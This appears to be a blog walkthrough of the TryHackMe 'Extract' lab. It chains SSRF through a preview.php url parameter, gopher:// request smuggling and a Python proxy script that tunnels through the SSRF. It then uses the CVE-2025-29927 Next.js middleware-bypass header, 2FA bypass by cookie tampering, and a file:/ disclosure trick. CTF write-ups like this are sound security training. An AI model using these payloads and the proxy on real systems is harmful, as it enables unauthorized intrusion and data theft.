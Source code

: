 
---
title: "TryHackMe: Extract Room Walkthrough"
categories: [TryHackMe]
tags: [linux, web, ssrf, file-disclosure, gopher, nextjs, php, cookie-tampering]

image:
  path: /assets/images/ext1.jpg
---

**Extract** challenge begins with identifying a **Server-Side Request Forgery (SSRF)** vulnerability, which we leveraged to discover an internal web application. By bypassing authentication on this internal app using a **Next.js Middleware** flaw and the `gopher://` scheme, we obtained the first flag along with a set of credentials.  

Using the same **SSRF** technique, we bypassed the IP restriction on the main web application to access a login page. Finally, by manipulating cookies to bypass **2FA**, we captured the second flag and completed the room.

[![Tryhackme Room Link](/assets/images/ext2.jpg){: width="300" height="300" .shadow}](https://tryhackme.com/room/extract){: .center }

## Initial Recon

### Nmap Scan

We started with a **full port scan**:

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.82.71
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
```

Open ports:

* **22** — SSH  
* **80** — HTTP  

### Web Application (Port 80)

Visiting `http://10.10.82.71/` displayed a document viewer. Selecting a document loaded it in an iframe via `/preview.php` with a `url` parameter.

![Web 80 Index](/assets/images/ext7.png){: width="1200" height="600"}

### Testing SSRF

We hosted a test file locally and accessed it via `/preview.php?url=http://10.14.101.76/test.txt`. The server fetched the content correctly:

```console
$ echo "test" > test.txt
$ python3 -m http.server 80
```

`file://` requests were blocked, but `gopher://` worked, allowing raw data injection for HTTP requests.

![Web 80 Preview Gopher Burp](/assets/images/ext7){: width="1000" height="500"}

```console
$ nc -lvnp 4444
```

### Discovering Internal Services

Using `gopher://` port scanning, we found **127.0.0.1:10000** running a Next.js application.

![Web 80 Preview 10000 Burp](/assets/images/ext3.png){: width="1000" height="500"}

### Simple Proxy to Access Internal Apps

We wrote a Python proxy to forward requests to internal ports through the SSRF:

```py
#!/usr/bin/env python3
import socket, requests, urllib.parse, threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "10.10.82.71"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 10000

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        encoded = urllib.parse.quote(urllib.parse.quote(data))
        url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{encoded}"
        resp = requests.get(url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()
    while True:
        conn, addr = s.accept()
        threading.Thread(target=handle_client, args=(conn, addr), daemon=True).start()
```

Browsing `http://127.0.0.1:5000/` now allowed us to access `127.0.0.1:10000`.

### Bypassing Next.js Middleware Authentication

**CVE-2025-29927** allows bypassing authentication handled by Next.js middleware by sending the header:

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

Using this, we accessed `/customapi` and retrieved the first flag and credentials.

![Web 10000 Authentication Bypass](/assets/images/ext4.png){: width="1000" height="500"}

### Second Flag

Using the discovered credentials, we accessed `/management/` internally via the proxy. Login redirected to `/management/2fa.php` for 2FA. Inspecting cookies revealed the `auth_token` object with `validated` set to **false**. Changing it to **true** bypassed 2FA and gave the second flag.

![Web 80 Management Flag Burp](/assets/images/ext5.png){: width="1300" height="500"}

### Extra: File Disclosure

Although `file://` is blocked, `file:/` works, allowing `/preview.php` to read server files including the PHP source code.

![Web 80 Preview Unintended Burp](/assets/images/ext6.png){: width="1000" height="500"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
